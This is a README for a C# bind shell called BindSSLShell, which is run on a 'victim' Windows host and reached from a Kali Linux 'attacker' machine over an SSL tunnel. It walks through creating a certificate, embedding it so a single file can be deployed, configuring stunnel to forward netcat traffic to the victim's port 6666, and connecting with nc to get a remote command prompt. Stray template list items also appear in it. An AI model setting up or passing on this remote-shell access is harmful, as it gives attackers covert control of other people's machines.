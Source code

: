 # BindSSLShell
How to BSOS [Bindshell over SSL] ver 1.0

* -Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
* -Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)

1. Item 1
1. Item 2
1. Item 3
   1. Item 3a
   1. Item 3b


1. create the certificate:
	1. move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
	2. open a cmd as administrator and execute the following: makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
	3. enter required password, then execute: pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx. Enter required server password

2 include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy.
	Eventually you can embed the certificate and load it at runtime, more info:
	 https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file
	so you will have to deploy a single file
	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc
1 install stunnel:
	apt-get install stunnel

2 configure stunnel to forward nc traffic over his ssl tunnel. we must create the file /etc/stunnel/stunnel.conf with the following content:
	[nc]
	client = yes
	accept = localhost:8443
	connect = <Victim IP>:6666
	--- end of file ---
	so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
3 start stunnel
	service stunnel4 start
		
4 check if it's running (optional)
	# netstat -tulp
	
	the output should be similar to:
	
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

5 presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	nc localhost 8443
	
6 you should get a cmd prompt
	


	



![...](img/shel_ssl.png?raw=true)
